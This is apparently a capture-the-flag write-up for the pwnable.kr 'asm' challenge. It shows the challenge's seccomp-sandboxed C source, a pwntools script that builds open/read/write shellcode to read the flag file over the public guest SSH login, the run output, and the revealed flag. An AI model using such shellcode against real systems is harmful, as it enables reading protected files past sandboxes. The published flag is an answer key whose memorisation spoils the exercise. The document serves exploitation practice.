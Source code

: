 ```yaml
---
title: "Pwnable.kr - asm"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/pwnable.kr/thumbnails/asm.png
ribbon: red
description: "This challenge is asking for x64 shellcode to read the flag file, it's using some `seccomp rules` to limit us to only use `open/read/write/exit` syscalls (so we cannot spawn a shell).
We can write some assembly (painful) or we can use pwntools..."
categories:
  - Binary Exploitation
---
```


> Challenge description:
>
> Mommy! I think I know how to make shellcodes



```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	if (ctx == NULL) {
		printf("seccomp error\n");
		exit(0);
	}

	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

	if (seccomp_load(ctx) < 0){
		seccomp_release(ctx);
		printf("seccomp error\n");
		exit(0);
	}
	seccomp_release(ctx);
}

char stub[] = "\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

	setvbuf(stdout, 0, _IONBF, 0);
	setvbuf(stdin, 0, _IOLBF, 0);

	printf("Welcome to shellcoding practice challenge.\n");
	printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
	printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
	printf("If this does not challenge you. you should play 'asg' challenge :)\n");

	char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
	memset(sh, 0x90, 0x1000);
	memcpy(sh, stub, strlen(stub));
	
	int offset = sizeof(stub);
	printf("give me your x64 shellcode: ");
	read(0, sh+offset, 1000);

	alarm(10);
	chroot("/home/asm_pwn");	// you are in chroot jail. so you can't use symlink in /tmp
	sandbox();
	((void (*)(void))sh)();
	return 0;
}
```

This challenge is asking for x64 shellcode to read the flag file, it's using some `seccomp rules` to limit us to only use `open/read/write/exit` syscalls (so we cannot spawn a shell).

We can write some assembly (painful) or we can use pwntools to do the work for us :)

We need to open the flag file, read it's content then write this content to stdout and exit, simple as that.

The given assembly `stub` that will run first is just zeroing out all the registers.

# Solution:

```python
# solve.py

from pwn import *

context(arch='amd64', os='linux')

file_name = 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
length = 50

shellcode = asm(
	shellcraft.open(file_name) +
	shellcraft.read('rax', 'rsp', length) +
	shellcraft.write(1, 'rsp', length) +
	shellcraft.exit(0))

sh = ssh('asm', 'pwnable.kr', password='guest', port=2222)
p = sh.remote('0', 9026)

print(p.recv())
p.sendline(shellcode)
print(p.recv())
```

```
$ python solve.py
[+] Connecting to pwnable.kr on port 2222: Done
[+] Connecting to 0:9026 via SSH to pwnable.kr: Done
Welcome to shellcoding practice challenge.
In this challenge, you can run your x64 shellcode under SECCOMP sandbox.
Try to make shellcode that spits flag using open()/read()/write() systemcalls only.
If this does not challenge you. you should play 'asg' challenge :)
give me your x64 shellcode: 
Mak1ng_shelLcodE_i5_veRy_eaSy
lease_read_this_file
```

Flag: `Mak1ng_shelLcodE_i5_veRy_eaSy`